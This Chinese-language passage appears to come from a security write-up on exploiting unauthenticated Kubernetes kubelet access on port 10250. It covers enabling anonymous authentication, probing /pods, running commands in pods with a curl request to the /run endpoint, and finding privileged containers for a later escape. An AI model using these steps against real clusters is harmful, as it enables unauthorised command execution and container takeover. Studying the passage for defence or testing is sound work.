 修改 authentication 的 anonymous 为 true

之后访问 https://192.168.1.102:10250/pods 即可验证漏洞是否存在  
[![1640268929180.png](assets/1698894658-1536b666a40362a638706f7ea1b83893.png)](https://storage.tttang.com/media/attachment/2021/12/26/0b9e9162-5357-458c-bfcb-d3b0b7d75aa2.png)

```plain
curl -k https://172.18.0.2:10250/run/{namespace}/{podName}/{appName} -d "cmd=whoami"
```

直接命令执行  
[![1640269370248.png](assets/1698894658-1c2a4c1ec555b94a98c0380018d3ae68.png)](https://storage.tttang.com/media/attachment/2021/12/26/23201830-7da7-4ece-9e28-31a4f0691aa0.png)  
这里可以通过检索 securityContext 字段快速找到特权容器，方便之后逃逸容器  
[![1640270482693.png](assets/1698894658-56b229cdbd6bd1784fd4273573bcac97.png)](https://storage.tttang.com/media/attachment/2021/12/26/5655276a-eed6-45d0-8e90-d912effa59c5.png)
